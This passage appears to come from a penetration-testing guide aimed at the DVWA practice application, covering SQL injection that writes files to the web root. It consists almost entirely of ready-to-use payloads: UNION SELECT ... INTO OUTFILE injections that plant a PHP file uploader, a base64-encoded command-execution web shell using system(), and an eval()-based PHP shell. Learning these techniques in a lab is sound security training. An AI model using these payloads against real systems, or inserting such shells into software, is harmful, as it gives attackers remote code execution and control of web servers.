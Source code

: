 SQL Query for reference.

```sql
SELECT '<?php if(isset($_POST[\'submit\'])){$t=\'./\';$f=$t.basename($_FILES[\'fileToUpload\'][\'name\']);if(move_uploaded_file($_FILES[\'fileToUpload\'][\'tmp_name\'],$f))echo"File uploaded successfully.";else echo"Sorry, there was an error uploading your file.";}?>\n<!DOCTYPE html><html lang=\"en\"><head><meta charset=\"UTF-8\"><meta name=\"viewport\" content=\"width=device-width, initial-scale=1.0\"><title>File Upload</title></head><body><h2>File Upload</h2><form action=\"<?=$_SERVER[\'PHP_SELF\']?>\" method=\"POST\" enctype=\"multipart/form-data\"><input type=\"file\" name=\"fileToUpload\" id=\"fileToUpload\"><input type=\"submit\" value=\"Upload\" name=\"submit\"></form></body></html>' INTO OUTFILE '/path/to/uploader.php'
```

Convert it to SQLi exploit with **UNION SELECT**.

```sql
' UNION SELECT '<?php if(isset($_POST[\'submit\'])){$t=\'./\';$f=$t.basename($_FILES[\'fileToUpload\'][\'name\']);if(move_uploaded_file($_FILES[\'fileToUpload\'][\'tmp_name\'],$f))echo"File uploaded successfully.";else echo"Sorry, there was an error uploading your file.";}?>\n<!DOCTYPE html><html lang=\"en\"><head><meta charset=\"UTF-8\"><meta name=\"viewport\" content=\"width=device-width, initial-scale=1.0\"><title>File Upload</title></head><body><h2>File Upload</h2><form action=\"<?=$_SERVER[\'PHP_SELF\']?>\" method=\"POST\" enctype=\"multipart/form-data\"><input type=\"file\" name=\"fileToUpload\" id=\"fileToUpload\"><input type=\"submit\" value=\"Upload\" name=\"submit\"></form></body></html>', NULL INTO OUTFILE '/var/www/html/dvwa/uploader.php'#
```

- **Base64 encoded**

```sql
' UNION SELECT FROM_BASE64("<base64_encoded>"), NULL INTO OUTFILE '/var/www/html/dvwa/file.php'#
```

```sql
$ echo "<?php \$cmd=\$_GET[\"cmd\"];system(\$cmd);?>" | base64
PD9waHAgJGNtZD0kX0dFVFsiY21kIl07c3lzdGVtKCRjbWQpOz8+Cg==

' UNION SELECT FROM_BASE64("PD9waHAgJGNtZD0kX0dFVFsiY21kIl07c3lzdGVtKCRjbWQpOz8+Cg=="), NULL INTO OUTFILE '/var/www/html/dvwa/shell.php'#
```

##### 4.2.5.1.3 - Evaluate PHP Code

```php
<?php eval($_GET[evaluate]); ?>
```

SQL Query for reference.

```sql
SELECT '<?php eval($_GET[evaluate]); ?>', NULL INTO OUTFILE '/var/www/html/dvwa/eval_php.php'
```

Convert it to SQLi exploit with **UNION SELECT**.

```sql
' UNION SELECT '<?php eval($_GET[evaluate]); ?>', NULL INTO OUTFILE '/var/www/html/dvwa/eval_php.php'#
```
